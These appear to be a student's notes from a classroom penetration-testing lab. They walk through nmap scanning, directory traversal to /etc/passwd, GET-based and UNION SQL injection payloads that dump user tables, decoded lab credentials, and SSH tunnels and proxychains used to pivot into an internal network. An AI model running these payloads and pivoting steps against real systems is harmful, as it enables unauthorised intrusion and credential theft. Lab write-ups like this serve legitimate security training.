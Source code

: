 Target 1 : 10.50.90.39.220
`student@lin-ops:~$ nmap -T4 -Pn -sT -v 10.50.39.220`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
`student@lin-ops:~$ nmap -v -sT -Pn -T4 --script http-enum 10.50.39.220 -p 80`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
fire up browser 
in browser: 10.50.90.39.220
click on everything
in file to read box on get careeers tried command injection "; whoami" , sql "tom OR 1=" , or traversal which worked "../../../../../etc/passwd"
../../../../../etc/hosts
[view page source]
192.168.28.181 WebApp
know we know there is another network
apply for a position here has spot to upload but there is no way to run the uploads = dead end
employee sign in try command injection: didnt work, directory transersal: didnt work, try sql injection: `tom' or 1='1`'
use F12 > network > click login > click in request and throw it at the end of url insert ?
`http://10.50.39.220/login.php?username=tom%27+or+1%3D%271&passwd=tom%27+or+1%3D%271`
vulnerable to sql injection through get method
Array
(
    [0] => user2
    [name] => user2
    [1] => RntyrfVfNER78
    [pass] => RntyrfVfNER78
)
1Array
(
    [0] => user3
    [name] => user3
    [1] => Obo4GURRnccyrf
    [pass] => Obo4GURRnccyrf
)
1Array
(
    [0] => Lee_Roth
    [name] => Lee_Roth
    [1] => anotherpassword4THEages
    [pass] => anotherpassword4THEages
)

we only use base64 and rot13 in this class
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - anotherpassword4THEages
see user2 creds on scripts/development.py 

now lets get on this box
`student@lin-ops:~$ ssh -MS /tmp/red user2@10.50.39.220`
bash
sudo -l 
find / -type f -perm /6000 -ls 2>/dev/null
cat /etc/crontab

nothing of interest yet

$ bash
user2@PublicFacingWebsite:/$  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=2.26 ms
64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=1.63 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.540 ms (IGNORE)

note: have to be in bash shell to perform ping sweep 

`student@lin-ops:~$ ssh -S /tmp/red red -O forward -D9050`
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.172,181,190`
Nmap scan report for 192.168.28.172
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.181
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 192.168.28.190
Host is up (0.0010s latency).
All 1000 scanned ports on 192.168.28.190 are closed

lets tackle the port 80 on .181
set up another tunnel 
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1601:192.168.28.181:80`
(can run nikto but didnt quite get command to work on my end)
go to website
`http://0.0.0.0:1601/`
`http://0.0.0.0:1601/pick.php?product=4&Submit=Submit`
`http://0.0.0.0:1601/pick.php?product=4 OR 1=1 ;`
`http://0.0.0.0:1601/pick.php?product=7%20OR%201=1%20;`    find that it is product 7 to conduct sql injection
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20select%201,2,3;` to see how many columns that it needs and in this case it is 3
see that 1 , 3 , 2 is the way it prints 
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20table_schema,column_name,table_name%20FROM%20information_schema.columns;` put column_name in spot 2 so it pints at the end
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20user_id,name,username%20FROM%20siteusers.users`
Aaron - apasswordyPa$$word
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - Lroth - anotherpassword4THEages
on .181 webapp





